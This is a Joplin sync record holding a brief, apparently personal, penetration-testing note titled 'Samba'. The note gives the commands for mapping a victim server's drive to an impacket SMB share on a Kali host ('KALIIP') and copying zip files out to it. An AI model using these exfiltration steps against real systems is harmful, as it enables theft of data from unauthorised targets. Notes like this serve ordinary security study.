 id: 79fb749801b44b7dad9bd42b37bf86a3
parent_id: 
item_type: 1
item_id: 5e5f4817d1944d01bac395c9b67c1541
item_updated_time: 1642583512873
title_diff: "[{\"diffs\":[[1,\"Samba\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":5}]"
body_diff: "[{\"diffs\":[[1,\"On the victim server, run \\\n\\\n> net use Z: \\\\\\\\\\\\KALIIP\\\\\\\\share\\\n\\\nThen on kali, run in the folder to get the files\\\n\\\n> impacket-smbserver share \\\\`pwd\\\\`\\\n\\\nThen copy the files to be shared into the shared directory\\\n\\\n> copy *.zip z:\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":220}]"
metadata_diff: {"new":{"id":"5e5f4817d1944d01bac395c9b67c1541","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.701Z
created_time: 2022-02-28T02:44:25.701Z
type_: 13